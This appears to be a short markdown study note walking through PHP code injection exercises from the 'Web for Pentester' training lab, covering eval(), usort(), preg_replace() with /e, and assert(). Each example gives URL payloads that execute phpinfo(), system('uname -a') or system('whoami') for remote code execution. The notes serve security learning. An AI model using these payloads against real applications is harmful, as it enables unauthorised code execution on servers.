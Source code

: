 ## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster walkthrough
### example 1
` eval() - evaluates a string as PHP code ` <br>
**payload**- " .phpinfo(). "  <br>
**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


### example 2
` usort() - Sort an array by values using a user-defined comparison function ` <br>
**payload**-example2.php?order=id,system('whoami') <br>
**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


### example 3
` preg_replace() — Perform a regular expression search and replace `<br>
**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


### example 4
` assert() - Checks if assertion is FALSE ` <br>
**payload** - example4.php?name=hacker'.phpinfo().' <br>
**payload** - example4.php?name=hacker'.system('uname -a').'



###Noted by [konova](https://www.facebook.com/kon0va)


### Ref : 
- [LOL security](https://www.youtube.com/channel/UCQm58nOLArHOfC5dF9zCxHg)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)



